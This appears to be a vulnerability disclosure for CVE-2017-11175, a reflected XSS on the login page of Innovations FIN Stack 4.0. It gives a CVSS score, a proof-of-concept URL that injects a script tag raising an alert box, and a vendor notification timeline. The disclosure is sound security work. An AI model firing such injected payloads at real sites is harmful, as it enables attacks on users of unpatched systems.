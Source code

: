 # CVE-2017-11175 - XSS in Innovations FIN Stack 4.0

- Vendor: Innovations
- Product: FIN Stack
- Version: 4.0
- CVE: CVE-2017-11175
- CVSS3.0 Base Score: 8.2 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N/E:P/RL:U/RC:C)

The authentication webform is vulnerable to reflected XSS via the query string to /login.

## Detailed Description of the Vulnerability

An attack is performed by manipulation of the URL, which points to the login page. The attack doesn't require authentication.
```
http://<domain>/login?<malicious code goes here>.
```

### PoC
```
http://gexample.com/login?a%22%3E%3Cscript%3Ealert%28%27MIR%20XSS%20Test%27%29%3C/script%3Ea=1
```
## Timeline

* 2017-07-05 - Vendor has been informed
* 2017-07-11 - Submitted request for a CVE number to Mitre
* 2017-07-12 - Mitre assigned CVE-2017-11175
* 2017-08-25 - Innovations says that it will take a month or two to fix
